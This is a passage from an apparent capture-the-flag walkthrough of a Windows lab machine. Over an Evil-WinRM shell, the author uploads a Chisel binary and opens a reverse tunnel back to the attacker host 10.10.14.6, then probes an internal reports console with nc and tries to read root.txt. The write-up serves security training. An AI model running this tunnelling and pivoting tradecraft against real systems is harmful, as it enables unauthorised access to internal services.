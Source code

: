         + FullyQualifiedErrorId : WebCmdletWebResponseException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand



I'll start the [Chisel](https://github.com/jpillora/chisel) server on my
VM and upload the Windows binary to Appsanity to get a tunnel to
localhost:



    *Evil-WinRM* PS C:\programdata> upload /opt/chisel/chisel_1.9.1_windows_amd64 \programdata\c.exe                              
    Info: Uploading /opt/chisel/chisel_1.9.1_windows_amd64 to \programdata\c.exe

    Data: 12008104 bytes of 12008104 bytes copied

    Info: Upload successful!
    *Evil-WinRM* PS C:\programdata> .\c.exe client 10.10.14.6:8000 R:10000:127.0.0.1:100
    c.exe : 2024/03/02 03:44:29 client: Connecting to ws://10.10.14.6:8000
        + CategoryInfo          : NotSpecified: (2024/03/02 03:4...10.10.14.6:8000:String) [], RemoteException
        + FullyQualifiedErrorId : NativeCommandError
    2024/03/02 03:44:30 client: Connected (Latency 97.2358ms)



There's an error, but my server shows the tunnel:



    oxdf@hacky$ ./chisel_1.9.1_linux_amd64 server -p 8000 --reverse 
    2024/03/02 06:37:42 server: Reverse tunnelling enabled
    2024/03/02 06:37:42 server: Fingerprint ds0r8UB0J6WEjmcpLmdcmd7E4Y2D8azZsiBUTmwDJf0=
    2024/03/02 06:37:42 server: Listening on http://0.0.0.0:8000
    2024/03/02 06:44:27 server: session#18: tun: proxy#R:10000=>100: Listening



And I can interact with it over `nc`:



    oxdf@hacky$ nc localhost 10000
    Reports Management administrative console. Type "help" to view available commands.



`help` shows the commands:



    ‌help
    Available Commands:
    backup: Perform a backup operation.
    validate: Validates if any report has been altered since the last backup.
    recover <filename>: Restores a specified file from the backup to the Reports folder.
    upload <external source>: Uploads the reports to the specified external source.



I can try some of the commands, but nothing too interesting:



    ‌backup
    Backup operation completed successfully.
    ‌validate
    Validation completed. All reports are intact.
    ‌recover \users\administator\desktop\root.txt
    Specified file not found in the backup directory.
    ‌upload 10.10.14.6    
    Failed to upload to external source.
